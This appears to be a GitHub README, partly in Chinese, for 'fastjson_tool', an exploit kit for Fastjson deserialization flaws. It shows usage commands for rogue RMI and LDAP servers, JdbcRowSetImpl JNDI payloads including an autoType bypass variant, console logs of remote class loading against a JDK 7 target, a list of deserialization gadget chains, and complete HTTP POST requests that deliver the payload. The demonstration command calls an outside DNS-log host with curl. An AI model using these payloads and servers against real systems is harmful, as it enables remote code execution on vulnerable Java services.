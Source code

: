 # fastjson_tool

基础命令：java -cp fastjson_tool.jar fastjson.HRMIServer x.x.x.x 4321 "需要执行的命令"

x.x.x.x为监听的主机IP
4321为端口

[root@ /]# java -cp fastjson_tool.jar fastjson.HRMIServer x.x.x.x 80 "curl dnslog.wyzxz.cn"
[-] payload:  {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://x.x.x.x:80/Object","autoCommit":true}
[-] payload:  {"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://x.x.x.x:80/Object","autoCommit":true}}
[-] Opening JRMP listener on 80
[-] Have connection from /x.x.x.x:33543
[-] Reading message...
[-] Is RMI.lookup call for Exploit 2
[-] Sending remote classloading stub targeting http://x.x.x.x:80/Object.class
[-] Closing connection
[*] Have connection from /x.x.x.x:33544 /Object.class
[-] remote target jdk version: java/1.7.0_79, use payload version: jdk7
[-] send payload done and exit.

[root@ /]# java -cp fastjson_tool.jar fastjson.HLDAPServer x.x.x.x 80 "curl dnslog.wyzxz.cn"
[-] payload:  {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://x.x.x.x:80/Object","autoCommit":true}
[-] payload:  {"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://x.x.x.x:80/Object","autoCommit":true}}
[-] LDAP Listening on 0.0.0.0:80
[*] Send LDAP reference result for Exploit redirecting to http://x.x.x.x:80/Object.class
[*] Have connection from /x.x.x.x:33548 /Object.class
[-] remote target jdk version: java/1.7.0_79, use payload version: jdk7
[-] remote target jdk version: java/1.7.0_79, use payload version: jdk7
[-] send payload done and exit.

================================================================================

if command need base64 encode, command should startwith bash=/powershell=/python=/perl=
example:  bash=curl dnslog.wyzxz.cn

1. RMI (need tomcat8)
java -cp fastjson_tool.jar EvilRMIServer 1099 8888 "curl dnslog.wyzxz.cn"


2. RMI/LDAP + HTTP
java -cp fastjson_tool.jar HRMIServer x.x.x.x 80 "curl dnslog.wyzxz.cn"
/
java -cp fastjson_tool.jar HLDAPServer x.x.x.x 80 "curl dnslog.wyzxz.cn"


3. LDAP2
java -cp fastjson_tool.jar fastjson.LDAPRefServer2 80 CommonsCollections1 "curl dnslog.wyzxz.cn"
CommonsBeanutils1  
CommonsCollections1
CommonsCollections2
CommonsCollections3
CommonsCollections4
CommonsCollections5
CommonsCollections6
CommonsCollections7
CommonsCollections8
CommonsCollections9
CommonsCollections10
Groovy1            
URLDNS             
JSON1              
Spring1            
Spring2            
file   （BASE64编码后的反序列内容文件）


================================================================================

rmi:
1. 启动RMI服务，后面写要执行的语句(有依赖，tomcat8稳定复现)
java -cp fastjson_tool.jar fastjson.EvilRMIServer 1099 8888 "curl dnslog.wyzxz.cn"

2. 发送请求包
POST /test HTTP/1.1
Host: 127.0.0.1
Content-Type: application/json
Accept-Encoding: gzip, deflate
Connection: close
Accept: */*
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 12_3_1 like Mac OS X) 

{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/Object","autoCommit":true}

3. 查看日志是否curl成功

================================================================================

ldap:
1. 启动LDAP服务，后面写要执行的语句
java -cp fastjson_tool.jar fastjson.HLDAPServer x.x.x.x 80 "curl dnslog.wyzxz.cn"

2. 发送请求包
POST /test HTTP/1.1
Host: 127.0.0.1
Content-Type: application/json
Accept-Encoding: gzip, deflate
Connection: close
Accept: */*
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 12_3_1 like Mac OS X) 

{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://x.x.x.x:80/Object","autoCommit":true}


3. 查看日志是否执行成功

